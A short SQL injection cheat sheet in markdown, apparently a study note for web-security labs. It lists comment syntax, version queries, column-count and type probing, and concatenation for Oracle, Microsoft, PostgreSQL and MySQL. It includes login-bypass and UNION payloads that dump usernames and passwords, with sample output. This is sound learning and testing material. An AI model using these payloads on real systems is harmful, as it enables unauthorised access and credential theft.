 # SQL cheet sheat

This SQLi cheat sheet contains examples of useful syntax that you can use to perform a variety tasks that often arise when SQL injection attacks.

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input

"""
**Oracle**: --comment

**Microsoft**: --comment
               /*comment*/

**PostgreSQL**: --comment
                /*comment*/

**MySQL**: #comment
           -- comment (note that the space needs to follow the double dash)
           /*comment*/
"""

***Example***:
"""SQL
	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
	SELECT * FROM products WHERE category = 'football' OR 1=1--' AND released = 1
	SELECT * FROM products WHERE category = 'football'--' AND released = 1
	UNION SELECT username, password FROM users-- 
"""

## Database version

"""
**Oracle**: SELECT banner FROM v$version
            SELECT version FROM v$instance

**Microsoft**: SELECT @@version

**PostgreSQL**: SELECT version()

**MySQL**: SELECT @@version
"""

## Number of columns and type of each columns:

If the number of nulls does not match the number of columns, the databas return an error.
"""
	UNION SELECT NULL-- (FROM DUAL-- should follow NULL for the injected queries on Oracle )
	UNION SELECT NULL,NULL--
	UNION SELECT NULL,NULL,NULL--
"""	

OR

This method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
"""
	ORDER BY 1--
	ORDER BY 2--
	ORDER BY 3--
"""

After getting the number of comlumns. We can replace`NULL` by `string` or `int` value (i.e: 'abc', 123) to detect the type of data in each column:
"""
	UNION SELECT 'abc',NULL,NULL,NULL--
	UNION SELECT NULL,'abc',NULL,NULL--
	UNION SELECT NULL,NULL,123,NULL-
"""

## String concatenation

"""
**Oracle**: 'foo'||'bar'

**Microsoft**: 'foo'+'bar'

**PostgreSQL**: 'foo'||'bar'

**MySQL**: 'foo' 'bar' (the space needs to between the two strings)
           CONCAT('foo','bar')
"""

For example:
"""
UNION SELECT username || '~' || password FROM users--

==> results:

...
administrator~password1
user2~password2
user3~password3
...  
"""


